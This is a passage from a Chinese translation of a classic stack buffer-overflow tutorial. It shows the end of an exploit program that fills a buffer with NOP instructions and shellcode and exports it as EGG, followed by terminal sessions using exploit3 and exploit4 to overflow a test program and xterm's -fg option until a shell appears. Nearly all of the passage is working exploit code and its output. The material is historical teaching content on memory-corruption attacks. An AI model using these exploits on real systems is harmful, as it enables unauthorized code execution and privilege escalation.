 ```c
        buff[i] = NOP;

    ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
    for (i = 0; i < strlen(shellcode); i++)
        *(ptr++) = shellcode[i];

    buff[bsize - 1] = '\0';

    memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```

我们所使用的缓冲区大小最好比要使其溢出的缓冲区大100字节左右. 我们在要使其溢出的缓冲区尾部放置shellcode, 为NOP指令留下足够的空间, 仍然使用我们推测的地址来覆盖返回地址. 这里我们要使其溢出的缓冲区大小是512字节, 所以我们使用612字. 现在使用新的破解程序来使我们的测试程序溢出:

```
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
```

哇!一击中的!这个改进成千倍地提高了我们的命中率. 下面在真实的环境中尝试一下缓冲区溢出. 在Xt库上运用我们所讲述的方法. 在例子中, 我们使用xterm(实际上所有连接Xt库的程序都有漏洞). 计算机上要运行X Server并且允许本地的连接. 还要相应设置`DISPLAY`变量.


```
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

Warning: some arguments in previous message were lost
bash$
```
